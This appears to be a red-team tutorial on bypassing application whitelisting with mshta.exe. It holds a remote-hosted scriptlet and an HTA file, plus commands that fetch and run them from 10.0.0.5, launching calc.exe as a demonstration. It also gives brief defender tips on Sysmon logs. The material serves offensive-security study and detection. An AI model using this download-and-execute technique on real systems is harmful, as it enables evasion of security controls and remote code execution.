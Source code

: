 # Bypass Application Whitelisting by MSHTA

## Execution
Writing a scriptlet file that will launch `calc.exe` when invoked:

http://10.0.0.5/m.sct
```xml
<?XML version="1.0"?>
<scriptlet>
<registration description="Desc" progid="Progid" version="0" classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"></registration>

<public>
    <method name="Exec"></method>
</public>

<script language="JScript">
<![CDATA[
	function Exec()	{
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
	}
]]>
</script>
</scriptlet>
```

Invoking the scriptlet file hosted remotely:
  
Attacker@Victim:
```powershell
# from powershell
/cmd /c mshta.exe javascript:a=(GetObject("script:http://10.0.0.5/m.sct")).Exec();close();
```

### Observations
As expected, `calc.exe` is spawned by `mshta.exe`. Worth noting that **mhsta** and **cmd** exit almost immediately after invoking the **calc.exe**:

![power](https://github.com/Mehdi0x90/Red-Team/assets/17106836/4c68834d-0c71-453f-8244-95f8509c1f13)

As a defender, look at sysmon logs for mshta establishing network connections:

![mshta-connection](https://github.com/Mehdi0x90/Red-Team/assets/17106836/8a5315b3-97c3-47d4-b0b6-a2bb06c2e5b6)

Also, suspicious commandlines:

![1234](https://github.com/Mehdi0x90/Red-Team/assets/17106836/2eff5653-f88d-4add-b577-df48477bd128)


## Bonus
The hta file can be invoked like so:

```powershell
mshta.exe http://10.0.0.5/m.hta
```

![mshta-calc2](https://github.com/Mehdi0x90/Red-Team/assets/17106836/064675b2-0785-4919-8ef8-3693f06694e1)

or by navigating to the file itself, launching it and clicking run:

![ms](https://github.com/Mehdi0x90/Red-Team/assets/17106836/0845aecd-3e90-4421-86e2-27f05ca3b6b0)


http://10.0.0.5/m.hta
```html
<html>
<head>
<script language="VBScript"> 
    Sub RunProgram
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "calc.exe"
    End Sub
RunProgram()
</script>
</head> 
<body>
    Nothing to see here..
</body>
</html>
```





















































































